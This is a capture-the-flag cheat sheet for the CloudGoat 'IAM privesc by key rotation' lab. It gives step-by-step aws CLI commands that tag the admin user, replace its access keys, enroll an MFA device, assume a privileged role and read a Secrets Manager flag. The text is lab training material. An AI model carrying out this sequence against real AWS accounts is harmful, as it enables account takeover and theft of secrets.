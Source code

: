 # IAM Privecs by Key Rotation Cheat Sheet

```bash
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=RjW4jK6hMm....
```

Enumerate the credentials

```bash
aws iam list-user-policies --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id>
# SelfManageAccess
# TagResources

aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name SelfManageAccess

aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name TagResources
```

With the permissions we can tag and change access keys for users with the tag `developer=true`.
- Looking at the IAM users there is a developer and a admin user.
- The admin user has permissions to assume a role `cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>` which allows it to retrieve the secret flag.

```bash
aws iam tag-user --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --tags '{"Key":"developer","Value":"true"}'

aws iam list-access-keys --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id>

aws iam delete-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --access-key-id AKIAZ6IIT5XU4BXDZM7B

aws iam create-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id>
# {
#     "AccessKey": {
#         "UserName": "admin_iam_privesc_by_key_rotation_<cloudgoat_id>",
#         "AccessKeyId": "AKIA....",
#         "Status": "Active",
#         "SecretAccessKey": "GQg+9Me8LmB+099t6....",
#         "CreateDate": "2023-09-04T19:20:02+00:00"
#     }
# }
```

With the "admin" users credentials we can assume the role it has access to...

```bash
export AWS_ACCESS_KEY_ID=AKIA....
export AWS_SECRET_ACCESS_KEY=GQg+9Me8LmB....

aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret
# Access Denied
```

...the role can only be assumed when using multi-factor authentication

Lets create a new virtual mfa device, back in the manager user shell/profile.

```bash
aws iam create-virtual-mfa-device --virtual-mfa-device-name cloudgoat_virtual_mfa --outfile QRCode.png --bootstrap-method QRCodePNG
# "SerialNumber": "arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa"
```

Scan the QR code in the file `QRCode.png`. For the following command put in two consecutive tokens. 

```bash
aws iam enable-mfa-device \
    --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> \
    --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa \
    --authentication-code1 438582 \
    --authentication-code2 615656
```

Now we can assume the role since were using mfa. Switch back to the shell/profile that has the admin users credentials.

```bash
aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa --token-code 798934
# {
#     "Credentials": {
#         "AccessKeyId": "ASIA...",
#         "SecretAccessKey": "Mm8ij9L8eV.....",
#         "SessionToken": "IQoJb3JpZ2luX2VjE..................",
#         "Expiration": "2023-09-04T20:36:44+00:00"
#     },
#     "AssumedRoleUser": {
#         "AssumedRoleId": "AROAZ6IIT5XU5WXMGTWEW:cloudgoat_secret",
#         "Arn": "arn:aws:sts::0123456789:assumed-role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>/cloudgoat_secret"
#     }
# }
```

In a new shell retrieve the secret

```bash
export AWS_ACCESS_KEY_ID=ASIA....
export AWS_SECRET_ACCESS_KEY=Mm8ij9L8eV....
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjE..................

aws secretsmanager list-secrets

aws secretsmanager get-secret-value --secret-id cg_secret_iam_privesc_by_key_rotation_<cloudgoat_id> | grep flag
# flag{...}
```
